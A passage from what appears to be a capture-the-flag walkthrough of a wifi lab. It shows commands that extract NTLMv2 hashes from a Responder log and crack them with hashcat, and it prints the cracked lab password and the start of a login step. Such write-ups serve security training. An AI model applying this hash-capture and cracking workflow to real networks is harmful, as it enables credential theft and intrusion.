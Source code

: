I have to crack hash:

```shell
cat logs/Responder-Session.log  | grep NTLMv2 | grep Hash | awk '{print $9}' > responder.5600
sudo hashcat -a 0 -m 5600 responder.5600 ~/rockyou-top100000.txt  --force
...
Dictionary cache hit:
* Filename..: /root/rockyou-top100000.txt
* Passwords.: 1000000
* Bytes.....: 8583863
* Keyspace..: 1000000
...
GOD::CORPO:02a3217d5048d448:4fbd6fb9b6bf785153daf2c2351f8a93:01010000000000000094a02aed54da01394966786977694e0000000002000800530039005100410001001e00570049004e002d00430046003200450053004c004d00470052005000340004003400570049004e002d00430046003200450053004c004d0047005200500034002e0053003900510041002e004c004f00430041004c000300140053003900510041002e004c004f00430041004c000500140053003900510041002e004c004f00430041004c00070008000094a02aed54da010900280063006900660073002f00570049004e002d00430046003200450053004c004d0047005200500034000000000000000000:tommy1
...
```

**Flag :**  `tommy1`

## **24. What is the flag after login in wifi-regional with the credentials obtained?**

**Challenge Description :**  What is the flag after login in wifi-regional with the credentials obtained in the previous step?

### Approach

I can use challenge 22 methodology to initiate connection to `wifi-regional` and enter `CORPO\god:tommy1` credentials in router:
